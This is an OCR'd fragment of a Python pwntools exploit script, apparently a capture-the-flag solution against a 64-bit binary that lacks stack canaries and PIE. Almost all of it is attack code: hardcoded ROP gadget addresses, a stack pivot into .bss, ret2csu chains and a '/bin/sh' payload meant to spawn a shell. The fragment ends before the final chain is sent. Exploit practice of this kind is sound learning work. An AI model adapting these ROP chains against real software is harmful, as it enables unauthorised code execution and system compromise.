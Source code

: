 ```python
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x4005DC
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()


bss = 0x601068
leave_r = 0x004005db #: leave ; ret ;
pop_rdi = 0x00400693 #: pop rdi ; ret  ;
pop_rsi = 0x00400691 #: pop rsi ; pop r15 ; ret  ;
mov_r14 = 0x00400670
add_rbp = 0x00401108
pop_r45 = 0x00400690 #: pop r14 ; pop r15 ; ret  ;
csu = 0x040068A
init = 0x600e38
ret = 0x0040062d

rop1 = flat([
	'A'*10,bss,
	pop_rsi, bss+8, 0x0,
	elf.sym.read, leave_r
])
io.send(rop1)
pause()
rop2 = flat([
	csu, 0x0, 0x1, init, 0x0, 0x0,0x1000, mov_r14, 0x0,0x0,bss,0x0,0x0,0x0,0x0,
	pop_rsi, bss+0x98,0,
	elf.sym.read,leave_r
])

io.send(rop2)

r2 = flat([
        '/bin/sh\x00',
	pop_rsi, elf.got['read'], 0x0,
	elf.sym.read,
	csu, 0x0, 0x1, init, 0x0,0x0, (bss + 0x300), mov_r14, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0,
	pop_rsi, (bss + 0x300), 0x0,
	elf.sym.read,
	pop_rdi, bss+0x98,
	pop_rsi, (bss + 0x308), 0x0,
	elf.sym.read
])
pause()
```